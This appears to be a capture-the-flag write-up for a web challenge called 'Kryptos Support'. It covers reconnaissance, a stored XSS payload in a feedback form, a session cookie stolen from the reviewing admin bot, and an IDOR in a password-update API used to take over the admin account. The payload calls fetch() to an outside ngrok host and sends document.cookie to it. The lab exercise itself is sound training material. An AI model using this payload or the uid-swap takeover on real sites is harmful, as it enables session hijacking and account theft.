 # Kryptos Support
## Recon
2 Webpages (`/` and `/login`), rendered using Express.js with some JQuery and custom JS. No known vulnerabilities.

Login not prone to SQLi, Feedback-Form accepts any kind of input, no sanitation.

"Admin will review your ticket" implies some kind of background task checking the entered tickets, could be prone to XSS.

## Initial access
Payload for feedback/ticket form:
```
<script>
fetch('https://de7d-2a02-168-a12d-0-22da-4266-1e98-f4b9.eu.ngrok.io?c=' + document.cookie)
</script>
```

Logs the session cookie which then can be used to spoof the logged in session for user `moderator`, thus allowing access to `/login`.

`session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI2NDE2NjN9.Y-iVAeZeeqW-Y33gRy65hLs7wns2g4nOeFRp9YPXnR8`

## PrivEsc
There seems to be a dedicated `/admin` page because of a redirection that is happening (meaning we can probably privesc).

The new page `/settings` allows us to change the password. The update triggers a request to `/api/users/update` with the following payload:

```
{"password":"1234","uid":"100"}
```

Chaning the `uid` to `1` lets us update the password for the user `admin` due to an IDOR vulnerability. Logging in as admin gives us the flag.